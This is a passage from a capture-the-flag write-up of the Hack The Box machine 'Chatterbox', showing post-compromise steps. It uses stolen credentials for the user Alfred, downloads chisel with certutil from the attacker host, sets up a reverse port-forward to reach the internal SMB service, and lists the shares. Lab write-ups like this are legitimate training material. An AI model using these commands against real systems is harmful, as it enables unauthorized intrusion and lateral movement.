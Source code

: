 What can we do with `Alfred`'s credentials?

Do you still remember the SMB service?

**Let's try that!**
```shell
┌[siunam♥earth]-(~/ctf/htb/Machines/Chatterbox)-[2023.05.17|22:29:09(HKT)]
└> smbclient -L $RHOSTS -U 'Alfred' -P '{Redacted}'        
Failed to open /var/lib/samba/private/secrets.tdb
_samba_cmd_set_machine_account_s3: failed to open secrets.tdb to obtain our trust credentials for WORKGROUP
Failed to set machine account: NT_STATUS_INTERNAL_ERROR
```

Ah! `NT_STATUS_INTERNAL_ERROR`. This is because the SMB service is only accessable internally.

To access the SMB service, we need to do port forwarding.

**To do so, I'll use a tool called [`chisel`](https://github.com/jpillora/chisel).**

- Upload `chisel` executable to the target's machine:

```shell
┌[siunam♥earth]-(/opt/chisel)-[2023.05.17|22:32:41(HKT)]
└> python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```shell
C:\Windows\system32>certutil -urlcache -f http://10.10.14.26:8000/chiselx86 c:\users\alfred\chisel.exe
certutil -urlcache -f http://10.10.14.26:8000/chisel_1.8.1_windows_386.exe c:\users\alfred\chisel.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
```

- Setup the port forwarding server:

```shell
┌[siunam♥earth]-(/opt/chisel)-[2023.05.17|22:36:52(HKT)]
└> ./chisel_1.8.1_linux_amd64 server -p 8888 --reverse
2023/05/17 22:37:36 server: Reverse tunnelling enabled
2023/05/17 22:37:36 server: Fingerprint xHEC/XQKnI8OY/mOHnpfz7xnwAe5ScD9OuvYnAaYrGk=
2023/05/17 22:37:36 server: Listening on http://0.0.0.0:8888
```

- Connect the server from client:

```shell
C:\Windows\system32>c:\users\alfred\chisel.exe client 10.10.14.26:8888 R:44445:127.0.0.1:445
```

**Now we should be able to access to the SMB service:**
```shell
┌[siunam♥earth]-(~/ctf/htb/Machines/Chatterbox)-[2023.05.17|22:54:52(HKT)]
└> smbclient -L 127.0.0.1 -U 'Alfred%{Redacted}'       

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 127.0.0.1 failed (Error NT_STATUS_CONNECTION_REFUSED)
Unable to connect with SMB1 -- no workgroup available
```
